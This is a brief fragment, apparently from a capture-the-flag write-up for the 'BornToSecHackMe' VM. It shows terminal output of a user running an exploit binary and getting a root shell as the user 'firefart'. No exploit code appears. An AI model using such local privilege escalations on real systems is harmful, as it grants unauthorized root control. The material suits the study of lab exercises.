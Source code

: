 laurie@BornToSecHackMe:~$ ./exploit
[...]
Password:
root

firefart@BornToSecHackMe:/home/laurie# id
uid=0(firefart) gid=0(root) groups=0(root)
